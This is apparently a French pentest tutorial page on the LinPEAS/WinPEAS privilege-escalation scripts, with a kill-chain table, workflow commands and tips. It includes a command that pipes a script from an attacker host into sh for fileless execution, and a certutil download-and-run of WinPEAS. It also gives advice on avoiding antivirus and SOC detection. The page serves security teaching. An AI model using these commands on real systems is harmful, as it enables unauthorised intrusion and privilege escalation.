

# LinPEAS / WinPEAS — Le Détective Privé

<div
  class="omny-meta"
  data-level="🟡 Intermédiaire"
  data-version="Suite PEAS"
  data-time="~20 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Chercher la Clé du Coffre dans la Maison"
    Vous avez réussi à entrer par la fenêtre du salon (Vous avez un shell utilisateur standard). 
    Votre objectif est maintenant d'ouvrir le coffre-fort de la maison (Devenir Root / SYSTEM). Vous pourriez fouiller chaque tiroir, lire chaque post-it, vérifier chaque serrure manuellement (cela prendrait des semaines).
    **PEAS** est un détective privé qui retourne toute la maison en 2 minutes chronométrées. Il met des post-it rouges fluorescents sur tout ce qui ressemble de près ou de loin à une erreur de sécurité (un mot de passe oublié dans un tiroir, une porte arrière mal verrouillée).

Développée par le chercheur espagnol **Carlos Polop** (créateur du célèbre site HackTricks), la suite PEAS est un ensemble de scripts d'énumération de vulnérabilités locales. Ils n'exploitent rien eux-mêmes, ils ne font que *lire* la configuration du système cible à la recherche d'erreurs permettant une élévation de privilèges (Privesc).

<br>

---

## Architecture & Mécanismes Internes

### Le Code Couleur Universel (L'Analyse Visuelle)
LinPEAS (script Bash) et WinPEAS (exécutable C# ou script Batch) génèrent des rapports gigantesques (parfois plus de 10 000 lignes dans le terminal). Pour éviter de noyer l'auditeur, le cœur de leur architecture repose sur un système de coloration ANSI des résultats.



<br>

---

## Intégration dans la Kill Chain

| Phase Précédente | PEAS | Phase Suivante |
| :--- | :--- | :--- |
| **Exploitation / Shell Initial** <br> (*Metasploit / Netcat*) <br> On a piraté un serveur Web et on est connecté en tant qu'utilisateur `www-data`. | ➔ **Énumération Locale (Privesc)** ➔ <br> On lance LinPEAS qui découvre que l'outil `sudo nmap` peut être exécuté sans mot de passe. | **Élévation de Privilèges** <br> (*GTFOBins*) <br> On utilise la faille SUID/Sudo trouvée pour devenir l'utilisateur `root`. |

<br>

---

## Workflow Opérationnel & Lignes de Commande

Le plus grand défi de PEAS n'est pas de l'exécuter, c'est de l'amener sur la machine cible (qui n'a souvent pas internet).

### 1. Hébergement et Transfert (En mémoire vive)
Pour éviter de laisser des traces sur le disque dur de la victime (OpSec) et contourner certains antivirus basiques, on essaie d'exécuter PEAS directement en mémoire (Fileless Execution).

**Sur la machine de l'attaquant (Kali) :**
```bash title="Créer un serveur Web local"
# Se placer dans le dossier où se trouve linpeas.sh
python3 -m http.server 80
```

**Sur la machine de la Victime (Reverse Shell) :**
```bash title="Téléchargement et Exécution en Mémoire (Linux)"
# curl télécharge le script et le passe directement (Piping) à bash
curl -L http://10.10.10.42/linpeas.sh | sh
```

### 2. Le Transfert Windows (WinPEAS)
Sur Windows, l'exécution en mémoire est plus complexe à cause de l'antivirus. On télécharge généralement le fichier `.exe` ou le script `.bat`.
```powershell title="Téléchargement via PowerShell (Windows)"
# Sur la cible Windows
certutil.exe -urlcache -f http://10.10.10.42/winPEASany.exe C:\Windows\Temp\winpeas.exe
C:\Windows\Temp\winpeas.exe
```

### 3. Lire les Résultats (Redirection)
Puisque le rapport fait des milliers de lignes, il est indispensable de sauvegarder la sortie dans un fichier texte local ou de la lire avec la commande `less` pour pouvoir remonter dans le terminal.
```bash title="Sauvegarde du rapport complet (Linux)"
# Avec la couleur conservée (Tee)
./linpeas.sh -a | tee Rapport_PEAS.txt
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication technique |
|---|---|---|
| ✅ **À FAIRE** | **Utiliser GTFOBins / LOLBAS en complément** | PEAS va mettre en rouge un binaire comme `/usr/bin/find` avec des droits SUID. PEAS ne vous donnera pas l'exploit exact. C'est à vous de copier cette information et d'aller sur le site [GTFOBins](https://gtfobins.github.io/) pour trouver la commande magique exacte qui vous donnera le shell root. |
| ❌ **À NE PAS FAIRE** | **Lancer WinPEAS.exe sur un Windows Defender actif** | WinPEAS (`.exe` et script PowerShell) est extrêmement bien connu de tous les antivirus mondiaux (C'est le script de hacking le plus célèbre). Si vous le lancez sur un serveur d'entreprise, il sera supprimé instantanément et vous déclencherez une alerte SOC critique. PEAS est fait pour les CTF (HackTheBox, TryHackMe) ou les réseaux dont on sait que l'AV est inopérant. |

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    La suite PEAS (LinPEAS / WinPEAS) a révolutionné la phase de Post-Exploitation. Elle a automatisé le travail fastidieux d'énumération qui prenait autrefois des heures aux testeurs d'intrusion. Cependant, l'outil ne fait que pointer du doigt les portes ouvertes, il ne les franchit pas à votre place. Un vrai pentester doit comprendre *pourquoi* la ligne est rouge afin d'en tirer parti (ex: comprendre le fonctionnement de l'environnement PATH ou des Tâches Planifiées Windows).

> Maintenant que vous êtes Root ou SYSTEM sur le serveur compromis, vous possédez la machine totale. Que faire si ce serveur a une deuxième carte réseau connectée au réseau interne de l'entreprise ? Il faut l'utiliser comme un routeur pour attaquer de l'intérieur. C'est la technique du *Pivoting* via des tunnels comme **[Chisel →](./chisel.md)**.
